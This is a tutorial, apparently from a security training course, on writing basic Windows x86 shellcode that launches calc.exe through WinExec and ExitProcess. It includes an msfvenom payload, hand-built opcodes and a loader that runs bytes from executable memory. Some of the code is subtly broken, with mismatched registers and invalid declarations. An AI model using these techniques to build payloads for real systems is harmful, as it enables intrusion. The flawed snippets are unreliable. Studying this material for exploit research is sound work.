:orphan:
(basic-windows-shellcoding)=

# Basic Windows Shellcoding

Windows shellcoding is a very vast topic. There are a lot of ways to achieve code execution in windows and a lot of different places from which we can execute our shellcode. In this blog post, we will be looking at the very basics of windows shellcoding. By the end of this post, you will have a very basic understanding of how to write shellcode for windows.

Shellcode is the most vital component of any exploit. At its core, it enables us to carry out the tasks that the exploit is designed to accomplish. When using Metasploit against any software, the `payload` option is the shellcode that will be loaded into the exploit.

The simplest way to obtain a shellcode for your exploit is to search for it online (e.g., using shellstorm or cutting it from existing exploits) or to generate it using `msfvenom`.

These options are largely self-explanatory and do not necessitate advanced knowledge to utilize.

However, there may be instances in which certain exploits fail due to shellcode misbehavior or when you need to accomplish an uncommon task with your shellcode. In such situations, you should be able to manually write and debug shellcode.

Shellcode is composed of unmodified processor opcodes. Raw bytes are responsible for carrying out specific tasks, not even assembly. Therefore, it can be placed in a user buffer, and when execution is transferred to it, certain tasks can be performed (e.g. spawning a calc).

As the closest language to machine language, Assembly is the optimal choice for writing shellcode. How is assembly translated into opcodes?

Compiling an Assembly file to a binary file containing machine language opcodes is straightforward and can be accomplished by:

```bash
nasm.exe file.asm -o file.bin
```

The next step is to convert the binary `.bin` file into a hexadecimal representation of the bytes it contains. Thus, we can incorporate the desired opcodes into an exploit with ease. This can be accomplished with an automated tool.

Fortunately, there is a variety of such tools and tricks like:

```python
#!/usr/bin/env python2.7
import sys
if __name__ == "__main__":
	if len(sys.argv) < 2:
		print "usage: %s file.bin\n" % (sys.argv[0],)
		sys.exit(0)

	shellcode = "\""
	ctr = 1
	maxlen = 15

	for b in open(sys.argv[1], "rb").read():
		shellcode += "\\x" + b.encode("hex")
		if ctr == maxlen:
			shellcode += "\" +\n\""
			ctr = 0
		ctr += 1
	shellcode += "\""
	print shellcode
```

Now, let's compile a simple Assembly program (which doesn't do anything meaningful) to demonstrate the process:

```nasm
BITS 32

global _start

xor ebx, ebx
add eax, eax
dec esp
push eax
xor ecx, ebx
```

Using this method, we will generate the shellcode, but additional work remains before it is fully functional:

```bash
nasm test.asm -o test.bin
python2.7 bin2shellcode.py test.bin
```



On Linux, shellcode is writable via specific system calls. Simply filling registers with specific values and calling a Linux syscall is sufficient to communicate with the built-in Operating system functions (calls) such as `read()`, `write()`, and `system()`.

On Windows, it is more difficult to write shellcode. WinAPI is used by the Windows Operating System to allow users to access specific functionalities. WinAPI is a collection of functions stored in the system's default DLLs.

DLLs (Dynamic-Link Libraries) are Windows executable files containing functions. To utilize the functions contained within a DLL, an application must load that DLL into its own address space. Similar to how Python imports `time` to use `time.sleep` requires loading a DLL in order to utilize its functions.

If a DLL contains functions that can be used after the library has been loaded, we say that the DLL Exports these functions.

A program that wishes to make use of a DLL's exported functions must:

- Include a dll library in its address space (load it)
- Call the certain function by its name

For instance, if we want to invoke `MessageBoxA` from a program, it must:

- Load `user32.dll`
- Call `MessageBoxA` with proper arguments

From a low-level Assembly standpoint, some instructions must be executed before function arguments can be pushed onto the stack. The function can then be called, but its address must be known.

When an application loads a DLL library, its memory is mapped to the library. That is, it receives a specific address within the address space of that application.

Before Vista, Windows does not use ASLR, and the same address is used for certain DLLs across all service pack versions of the same operating system.

Each DLL includes a mapping of the functions it employs. Each function is accessible at a fixed offset from the library's base address.

_RVA (Relative Virtual Address)_ refers to the function address in a DLL. It is Relative to the base address where the parent DLL of the function was mapped.

During the execution of an application, immunity debugger can be utilized to view the address mapped to a specific function. It needs to be attached to the debugger.



Select `View -> Executable modules` and then right-click a library to view its names.



The window displays all of the module's functions along with their respective addresses:



`Arwin` can be used for static checks without launching a debugger.

`Arwin` is a straightforward piece of software that employs Windows functions to locate a library, load it, and obtain the address of the desired function it contains.

```{code-block} cpp
:force:
#include <windows.h>
#include <stdio.h>

/***************************************
arwin - win32 address resolution program
by steve hanna v.01
   vividmachines.com
   shanna@uiuc.edu
you are free to modify this code
but please attribute me if you
change the code. bugfixes & additions
are welcome please email me!
to compile:
you will need a win32 compiler with
the win32 SDK
this program finds the absolute address
of a function in a specified DLL.
happy shellcoding!
***************************************/


int main(int argc, char** argv)
{
	HMODULE hmod_libname;
	FARPROC fprc_func;

	printf("arwin - win32 address resolution program - by steve hanna - v.01\n");
	if(argc < 3)
	{
		printf("%s <Library Name
<Function Name>\n",argv[0])

		exit(-1);
	}

	hmod_libname = LoadLibrary(argv[1]);
	if(hmod_libname == NULL)
	{
		printf("Error: could not load library!\n");
		exit(-1);
	}
	fprc_func = GetProcAddress(hmod_libname,argv[2]);

	if(fprc_func == NULL)
	{
		printf("Error: could find the function in the library!\n");
		exit(-1);
	}
	printf("%s is located at 0x%08x in %s\n",argv[2],(unsigned int)fprc_func,argv[1]);


}
```

See an example of how Arwin can be used below:

```powershell
arwin.exe user32.dll MessageBoxA
```



When a function is called in an application, the debugger reveals that its arguments and return address are pushed onto the stack prior to the function call.

If we wish to invoke a system function from an Assembly perspective, we must simulate this circumstance with push instructions.

For instance, the stack should appear as follows:

```{code-block} nasm
:force:
[esp +] [return addr]
[esp + 4] [first argument]
[esp + 8] [second argument]
```

When arguments are on the stack, `eip` must point to the function being called. The function will then be invoked with the appropriate parameters.

From a shellcode standpoint, it should appear as follows:

```nasm
push second_arg
push first_arg
push return_address
call func
```

We can push a specific number onto the stack using Assembly, but not strings. The majority of functions require string pointers as parameters.
To acquire a pointer to a string, we can:

- Find an occurrence of the desired string in memory and
  remember its address.
- Push the string onto the stack and save a pointer to it.

The second method is significantly more trustworthy, and it will be favored in shellcode development.

For example, let’s consider the following assembly:

```{code-block} nasm
:force:
xor ebx, ebx             ; ebx is now equal to 0
push ebx                 ; push 0 to the stack.
push \x2e\x65\x78\x65    ; ".exe" - due to the endianness, we push the end of the string first.
push \x63\x61\x6c\x63    ; "calc", the beginning of the string.
mov ecx, esp             ; save the current value of ESP in ECX. The current value of ESP is the address of the beginning of the null-terminated string "calc.exe". Since we will not decrease the stack among the shellcode, this address will stay the same so we can save it in ECX.
```

Using the preceding examples, let's now attempt to produce a simple shellcode. The shellcode will be based on `WinExec()`.

[Winexec()](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-winexec) is a popular function among shellcode developers. It functions similarly to `system()` on Linux. It executes Windows programs specified in its arguments in the same manner as a command line.

The final step in writing a working shellcode is to simulate a stack overflow.

Stack overflow exploitation involves writing directly into the program's memory. We can achieve the same result on Windows using C/C++.

Consider the following code:

```cpp
#include <stdio.h>
#include <windows.h>

int main() {
  char* shellcode[] = "";
  void * mem;

  mem = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
  memcpy(mem, shellcode, sizeof(shellcode));
  ((void(*) ()) mem)();
  return 0;
}
```

This code simply allocates a portion of memory, makes it executable, copies the shellcode there, and begins executing it.

It is advantageous to have such an application for testing shellcode prior to its implementation in exploits. It is useful when debugging an exploit, when you must ensure that your shellcode functions as intended.

Let's attempt to paste shellcode generated by `msfvenom` into the aforementioned program and compile it with `mingw`. You may use any compiler of your choosing; however, in this instance we will use `mingw`.

As zeros will terminate our string, we must exclude them and mark them as invalid immediately upon generation:

```bash
msfvenom -p windows/exec cmd=calc.exe exitfunc=thread -f c -b "\x00"
```



```cpp
#include <stdio.h>
#include <windows.h>

int main() {
  char* shellcode[] = "\xda\xc1\xd9\x74\x24\xf4\xbb\x71\x71\x62\x85\x5e\x2b\xc9\xb1"
    "\x31\x83\xee\xfc\x31\x5e\x14\x03\x5e\x65\x93\x97\x79\x6d\xd1"
    "\x58\x82\x6d\xb6\xd1\x67\x5c\xf6\x86\xec\xce\xc6\xcd\xa1\xe2"
    "\xad\x80\x51\x71\xc3\x0c\x55\x32\x6e\x6b\x58\xc3\xc3\x4f\xfb"
    "\x47\x1e\x9c\xdb\x76\xd1\xd1\x1a\xbf\x0c\x1b\x4e\x68\x5a\x8e"
    "\x7f\x1d\x16\x13\x0b\x6d\xb6\x13\xe8\x25\xb9\x32\xbf\x3e\xe0"
    "\x94\x41\x93\x98\x9c\x59\xf0\xa5\x57\xd1\xc2\x52\x66\x33\x1b"
    "\x9a\xc5\x7a\x94\x69\x17\xba\x12\x92\x62\xb2\x61\x2f\x75\x01"
    "\x18\xeb\xf0\x92\xba\x78\xa2\x7e\x3b\xac\x35\xf4\x37\x19\x31"
    "\x52\x5b\x9c\x96\xe8\x67\x15\x19\x3f\xee\x6d\x3e\x9b\xab\x36"
    "\x5f\xba\x11\x98\x60\xdc\xfa\x45\xc5\x96\x16\x91\x74\xf5\x7c"
    "\x64\x0a\x83\x32\x66\x14\x8c\x62\x0f\x25\x07\xed\x48\xba\xc2"
    "\x4a\xb6\x58\xc7\xa6\x5f\xc5\x82\x0b\x02\xf6\x78\x4f\x3b\x75"
    "\x89\x2f\xb8\x65\xf8\x2a\x84\x21\x10\x46\x95\xc7\x16\xf5\x96"
    "\xcd\x74\x98\x04\x8d\x54\x3f\xad\x34\xa9";
  void * mem;

  mem = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
  memcpy(mem, shellcode, sizeof(shellcode));
  ((void(*) ()) mem)();
  return 0;
}
```



Great! The shellcode appears to operate as expected.

Now that we have all the necessary tools, let's write shellcode from scratch.

We must first determine the `Winexec()` address. This is possible with Arwin as follows:

```powershell
.\arwin.exe kernel32.dll WinExec
```



Due to endianness, it is also important to remember that when pushing strings onto the stack, they must be pushed in reverse order. Therefore, when we want to push `calc.exe0,` we must:

- push 0
- push "exe."
- push the "clac"

The Assembly code that executes calc through `Winexec()` can be written in the following way:

```nasm
BITS 32

global _start
xor  ebx, ebx         ; zero out ebx
push ebx              ; string terminator 0x00 for "calc.exe" string
push 0x6578652e       ; exe. : 6578652e
push 0x636c6163       ; clac : 636c6163

mov  ecx, esp         ; save pointer to "calc.exe" string in ebx

inc  ecx              ; uCmdShow = 1
push ecx              ; uCmdShow *ptr to stack in 2nd position - LIFO
push eax              ; lpcmdLine *ptr to stack in 1st position
mov  ebx, 0x76783231  ; call WinExec() function addr in kernel32.dll
call ebx
```

After executing calc, the `ExitProcess()` function gracefully terminates the process. Compile the code using `nasm`:

```bash
nasm test2.asm -o test2.bin
```

We'll then extract the opcodes using `bin2shell.py`, as follows:

```bash
python2.7 bin2shell.py test2.bin
```



Now, let's copy the opcodes and compile the shellcode tester:

```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = "\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe0\x41\x51\x50\xbb\x31\x32\x78\x76\xff\xd3"

int main(int argc, char **argv) {
  int (*func)();             // function pointer
  func = (int (*)()) code;   // func points to our shellcode
  (int)(*func)();            // execute a function code[]
  // if our program returned 0 instead of 1,
  // so our shellcode worked
  return 1;
}

```

Running the compiled program gives the following result:



We are almost done. The final step is to ensure that the shellcode exits without causing a messy segmentation fault.

After the calculator has been executed, we will insert a second portion of shellcode. First, using arwin, let's locate the address of `ExitProcess()`.

```powershell
arwin.exe kernel32.dll ExitProcess
```



Before calling the `ExitProcess()` method, we must `push 0` onto the stack in order for the process to return `0`.

```nasm
xor  eax, eax         ; zero out eax
push eax              ; push NULL
mov  eax, 0x767079b0  ; call ExitProcess function addr in kernel32.dll
jmp  eax              ; execute the ExitProcess function
```

Let's compile it and extract the opcodes:



Then, we will add the shellcode to the shellcode tester and run the compiled program:

```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = "\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe0\x41\x51\x50\xbb\x31\x32\x78\x76\xff\xd3\x31\xc0\x50\xb8\xb0\x79\x70\x76\xff\xe0"

int main(int argc, char **argv) {
  int (*func)();             // function pointer
  func = (int (*)()) code;   // func points to our shellcode
  (int)(*func)();            // execute a function code[]
  // if our program returned 0 instead of 1,
  // so our shellcode worked
  return 1;
}
```



Now the application does not display any errors - we see just calc being executed.

## References

[MSDN winexec](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-winexec)
[ExitProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-exitprocess)

:::{seealso}
Looking to expand your knowledge of vulnerability research and exploitation? Check out our online course, [MVRE - Certified Vulnerability Researcher and Exploitation Specialist](https://www.mosse-institute.com/certifications/mvre-vulnerability-researcher-and-exploitation-specialist.html) In this course, you'll learn about the different aspects of software exploitation and how to put them into practice.
:::
